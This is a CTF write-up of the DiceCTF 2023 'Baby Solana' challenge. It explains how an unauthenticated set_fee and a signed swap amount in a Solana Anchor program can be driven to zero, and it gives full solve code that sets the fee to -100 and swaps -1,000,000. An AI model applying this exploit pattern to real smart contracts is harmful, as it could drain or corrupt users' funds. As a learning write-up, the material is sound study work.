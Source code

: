 ```yaml
---
title: "Dice '23: Baby Solana"
style: border
color: danger
comments: true
description: dice ctf smart contract challenge
tags: CTF BlockChain
---
```

# Baby Solana

## Remark
So this was my first Solana pwn/challenge.
It was a great learning experience seeing Rust at work interacting with Solana.
It seems to have an interesting syntax!

## Source Code
Extracting the given folder provides two folders: framework and framework-solve

I was mostly interested main.rs and lib.rs within the framework folder.

Observe the code in main.rs:
```rust
        let ix = chall::instruction::InitVirtualBalance {
            x: 1_000_000,
            y: 1_000_001,
        };
```
I'm not 100% sure about the Rust syntax, but it seems like initializing instance variables in a class of a trivial Object Oriented language; in this case x and y to 1,000,000 and 1,000,001 respectively.

and
```rust
        if state.x == 0 && state.y == 0 {
            writeln!(socket, "congrats!")?;
            if let Ok(flag) = env::var("FLAG") {
                writeln!(socket, "flag: {:?}", flag)?;
            } else {
                writeln!(socket, "flag not found, please contact admin")?;
            }
        }
```
This will print the flag if x and y are both set to zero. This will be our aim.

In lib.rs, we can find two methods set_fee and swap that interact with fee, x, and y. These will allow us to control x and y and eventually print the flag:
```rust
    pub fn set_fee(ctx: Context<AuthFee>, fee: NUMBER) -> Result<()> {
        let state = &mut ctx.accounts.state.load_mut()?;

        state.fee = fee;

        Ok(())
    }
    
    pub fn swap(ctx: Context<Swap>, amt: NUMBER) -> Result<()> {
        let state = &mut ctx.accounts.state.load_mut()?;

        state.x += amt;
        state.y += amt;

        state.x += state.fee * state.x / 100;
        state.y += state.fee * state.y / 100;

        Ok(())
    }
```

## Attack Plan
We need to utilize these methods to manipulate the fee, x, and y.

We are given this code in lib.rs inside framework-solve folder:
```rust
pub fn get_flag(_ctx: Context<GetFlag>) -> Result<()> {
        Ok(())
    }
```

I assume that I need to complete this method get_flag to "get flag."

By studying the method swap, I concluded that if I can pass a value of -1,000,000 to amt and set fee as -100, I can set x and y as 0.

We pretty much have to set the fee first in order to call swap for another account and make x and y zero.

If we take a look at lib.rs again:
```rust
    pub fn set_fee(ctx: Context<AuthFee>, fee: NUMBER) -> Result<()> {
        let state = &mut ctx.accounts.state.load_mut()?;

        state.fee = fee;

        Ok(())
    }
    
    pub fn swap(ctx: Context<Swap>, amt: NUMBER) -> Result<()> {
        let state = &mut ctx.accounts.state.load_mut()?;

        state.x += amt;
        state.y += amt;

        state.x += state.fee * state.x / 100;
        state.y += state.fee * state.y / 100;

        Ok(())
    }
```
We see that the context needs to be AuthFee to call set_fee and Swap to call swap.
So I'll initialize two accounts, each being AuthFee and Swap type so that I could set the fee using AuthFee account and set x and y using Swap account.

## Exploiting
Within the framework-solve folder, I will edit lib.rs's getflag() method to call set_fee() and swap().

To call set_fee(), I need to create a AuthFee account, which can be set as:
```rust
let fee_accs = chall::cpi::accounts::AuthFee{
            state: _ctx.accounts.state.to_account_info(),
            payer: _ctx.accounts.payer.to_account_info(),
            system_program: _ctx.accounts.system_program.to_account_info(),
            rent: _ctx.accounts.rent.to_account_info(),
        };
```

Then, we can create an instance of fee_accs to be used to call set_fee like:
```rust
let fee = CpiContext::new(_ctx.accounts.chall.to_account_info(), fee_accs);
```

and we call set_fee as:
```rust
chall::cpi::set_fee(fee, -100)?;
```

Similarily, we set account type Swap, create an instance, and call swap as follows:
```rust
let swap_accs = chall::cpi::accounts::Swap{
            state: _ctx.accounts.state.to_account_info(),
            payer: _ctx.accounts.payer.to_account_info(),
            system_program: _ctx.accounts.system_program.to_account_info(),
            rent: _ctx.accounts.rent.to_account_info(),
        };

let swap_cpi = CpiContext::new(_ctx.accounts.chall.to_account_info(), swap_accs);
chall::cpi::swap(swap_cpi, -1_000_000)?;
```

Finally, running the provided ```./run.sh ``` gives us the flag.

## End
The final lib.rs looks like:
```rust
use anchor_lang::prelude::*;

use anchor_spl::token::Token;

declare_id!("osecio1111111111111111111111111111111111111");

#[program]
pub mod solve {
    use super::*;

    pub fn get_flag(_ctx: Context<GetFlag>) -> Result<()> {
        let fee_accs = chall::cpi::accounts::AuthFee{
            state: _ctx.accounts.state.to_account_info(),
            payer: _ctx.accounts.payer.to_account_info(),
            system_program: _ctx.accounts.system_program.to_account_info(),
            rent: _ctx.accounts.rent.to_account_info(),
        };

        let fee = CpiContext::new(_ctx.accounts.chall.to_account_info(), fee_accs);
        chall::cpi::set_fee(fee, -100)?;

        let swap_accs = chall::cpi::accounts::Swap{
            state: _ctx.accounts.state.to_account_info(),
            payer: _ctx.accounts.payer.to_account_info(),
            system_program: _ctx.accounts.system_program.to_account_info(),
            rent: _ctx.accounts.rent.to_account_info(),
        };

        let swap_cpi = CpiContext::new(_ctx.accounts.chall.to_account_info(), swap_accs);
        chall::cpi::swap(swap_cpi, -1_000_000)?;

        Ok(())
    }
}

#[derive(Accounts)]
pub struct GetFlag<'info> {
    #[account(mut)]
    pub state: AccountInfo<'info>,
    #[account(mut)]
    pub payer: Signer<'info>,

    pub system_program: Program<'info, System>,
    pub token_program: Program<'info, Token>,
    pub rent: Sysvar<'info, Rent>,
    pub chall: Program<'info, chall::program::Chall>
}
```
Thanks, 079.
